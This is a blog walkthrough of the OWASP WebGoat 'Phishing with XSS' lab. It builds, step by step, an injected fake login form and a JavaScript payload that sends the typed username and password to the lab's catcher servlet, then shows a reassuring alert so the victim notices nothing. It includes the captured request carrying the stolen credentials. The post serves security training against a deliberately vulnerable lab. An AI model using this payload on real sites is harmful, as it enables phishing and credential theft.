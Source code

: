 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Cross Site Scripting"
subtitle: "Phishing with XSS"
date:   2017-01-26 00:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Cross Site Scripting: Phishing with XSS
Instructions:

Below is an example of a standard search feature.
Using XSS and HTML insertion, your goal is to:

- Insert html to that requests credentials
- Add javascript to actually collect the credentials
- Post the credentials to http://localhost/webgoat/catcher?PROPERTY=yes...
- To pass this lesson, the credentials must be posted to the catcher servlet.

Nice, some more XSS. I'm actually really enjoying the XSS challenges. They seem to require a bit more craftiness than some of the other challenges, and this one looks like no exception. Login spoofing, credential grabbing, and sneaky javascript? Cool!

First off, let's try a test search and see what our attack vector looks like:

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-search.jpg">

Alright. So I don't see any clientside code that puts our search result on the page. I verified that by watching the request to the server and seeing it respond with the full HTML for the results page. So we're going to have to do some blackbox testing to see what we can get by any server side XSS filtering.

*Note*: I also found the full URL format for the credential catcher servlet in the server response:
```
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
```

So, if we look at the instructions, there are three separate steps in this injection:

- insertion of a fake login form
- insertion of a javascript function that will steal the creds from our inserted login form
- mechanism to send stolen creds to the servlet

Let's start with a little bit of test code. We only have one insertion point, so we have to put everything in at once. Let's try to pass a script and a login prompt to our user:

```
<script>
function testFunction() {
	return "test"
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="password" value="pass" type="TEXT"><br>{
<button type="button" onclick='javascript:alert(testFunction()")'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-pop.jpg">

Nice! We can call arbitrary javascript code we write on button press. Now let's try to harness that to grab some user data. To complete this I had to do some research about how Document Object Models and Javascript interact. On load, a browser creates a DOM of the page that is structured something like this (Credit to [W3 Schools][dom-js]):

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/dom-model.gif">

Notice how everything on the page is an element. Well we can use a javascript builtin function called ```getElementById( id )``` on the ```document``` to access any element on the page (that we specify by its unique id). We can achieve this by creating variables in our injected script to access injected elements in our document. Let's try to set the ```id``` field of our username and password inputs to a value we like, and access them with our injected javascript:

```
<script>
function userCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	return username + ":" + password
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(`user:pass= ` + userCreds())'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-pop.jpg">

Alright! So we successfully accessed the user data that we want. Now we need to send it to the servlet behind the scenes. Let's break out a friend we've seen before, ```XMLHttpRequest```, and steal some creds!

```
<script>
function stealCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	var credURL = "http://192.168.56.101/WebGoat/catcher?PROPERTY=yes&user="+username+"&password="+password;

	var xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("POST",credURL, false);
	xmlHTTP.send(null);

	return "You were successfully logged in!";
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(stealCreds())''>Login</button>
```

Now we have a much more nefarious implementation of our script. First, it parses the data from the login fields and properly formats it into our waiting servlet url. Then we create a new ```XMLHttpRequest```, which we use to ```POST``` our stolen credentials to our servlet URL. Finally, we return the 'all clear' alert to our user so that no one is the wiser (and no one changes their password!). Let's see it in action:

```
POST /WebGoat/catcher?PROPERTY=yes&user=regularguy&password=password123 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=54&menu=900
Cookie: JSESSIONID=27BE2D33035F93B37F3998509C6AD48C; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Content-Length: 0
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-logged.jpg">

XSS'd! That was more challenging that a lot of the other problems so far, but also a lot of fun!

### References

1 [DOM Javascript][dom-js]

2 [DOM Value Accession][dom-accession]

3 [Javascript HTTP Requests][js-requests]

[dom-js]:http://www.w3schools.com/js/js_htmldom.asp
[dom-accession]:http://www.w3schools.com/js/js_htmldom_methods.asp
[js-requests]:http://stackoverflow.com/questions/247483/http-get-request-in-javascript
